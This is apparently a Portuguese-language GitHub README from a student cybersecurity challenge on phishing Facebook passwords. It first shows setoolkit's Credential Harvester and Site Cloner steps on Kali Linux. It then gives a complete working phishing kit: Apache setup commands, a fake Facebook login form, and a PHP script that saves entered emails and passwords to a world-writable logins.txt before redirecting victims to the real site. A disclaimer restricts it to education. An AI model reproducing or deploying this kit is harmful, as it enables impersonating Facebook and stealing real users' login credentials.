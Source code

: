 # cibersecurity-desafio-phishing
Phishing para captura de senhas do Facebook

Ferramentas

Kali Linux

setoolkit

Configurando o Phishing no Kali Linux

Acesso root: sudo su

Iniciando o setoolkit: 

Tipo de ataque: Social-Engineering Attacks

Vetor de ataque: Web Site Attack Vectors

Método de ataque: Credential Harvester Attack Method 

Método de ataque: Site Cloner

Obtendo o endereço da máquina: ifconfig

URL para clone: http://www.facebook.com


![Captura de tela 2025-06-11 091900](https://github.com/user-attachments/assets/5e1a7afe-ff99-41b7-94c6-5abbae6526c0)
ss

sobre a imagem acima

Nesse  caso, não aparece diretamente um "username" ou "password" legível. Isso pode acontecer quando:

O site clonado não usa formulários padrão (como o Facebook, que usa JavaScript avançado e AJAX).

Os dados são enviados em partes criptografadas ou com tokens.

por isso ocorreu o erro.

eu consegui fazer mais de outra forma fazendo uma pagina fake do facebook

#  Página Falsa do Facebook para Captura Simulada de Login

⚠️ **ATENÇÃO**: Este projeto é estritamente para fins educacionais e deve ser utilizado apenas em ambientes controlados e com autorização. **Não utilize este código para fins ilegais ou maliciosos.**

---

## 🎯 Objetivo

Simular uma página de login com aparência semelhante ao Facebook, capturar os dados digitados (e-mail e senha), armazená-los localmente e redirecionar o usuário para o site verdadeiro do Facebook. Projeto voltado para fins de estudo em **cibersegurança e engenharia social**.

---

## 🧰 Tecnologias e Ferramentas Usadas

- Kali Linux (VirtualBox)
- 
- Apache2
- 
- HTML + CSS
- 
- PHP
- 
- Bash (comandos de terminal)

---

## 🛠️ Etapas do Projeto

### 1. Instalação e execução do Apache

```bash
sudo apt update

sudo apt install apache2

sudo systemctl start apache2

sudo systemctl enable apache2

### 2. Verificar se o Apache está rodando

sudo systemctl status apache2

Você deve ver algo como:

Active: active (running)

### 3. Descobrir o IP local da máquina

ip a

Procure uma linha como:

inet 192.168.1.5/24

Esse será o IP para acessar a página falsa:

192.168.1.5

🧩 Arquivos do Projeto

index.html
Página de login falsa com visual semelhante ao Facebook.

<form method="POST" action="process_login.php">
  <input type="text" name="email" placeholder="Email ou telefone" required />
  <input type="password" name="password" placeholder="Senha" required />
  <button type="submit">Entrar</button>
</form>

Salve como:

sudo nano /var/www/html/index.html

process_login.php
Script que recebe os dados do formulário, salva no arquivo logins.txt e redireciona para o Facebook verdadeiro.

<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $email = $_POST['email'] ?? '';
    $password = $_POST['password'] ?? '';
    file_put_contents("logins.txt", "Email: $email | Senha: $password\n", FILE_APPEND);
    header("Location: https://www.facebook.com");
    exit();
} else {
    echo "Método inválido.";
}
?>

Salve como:

sudo nano /var/www/html/process_login.php

logins.txt
Arquivo onde os dados capturados serão armazenados.

sudo touch /var/www/html/logins.txt
sudo chmod 666 /var/www/html/logins.txt


✅ Teste Final
Acesse: http://192.168.1.5

Preencha e envie o formulário

Verifique se você foi redirecionado para o site real

Veja os dados capturados:

cat /var/www/html/logins.txt

 ![Captura de tela](https://github.com/Luis8523/cibersecurity-desafio-phishing/blob/main/Captura%20de%20tela%202025-06-11%20113811.png?raw=true)
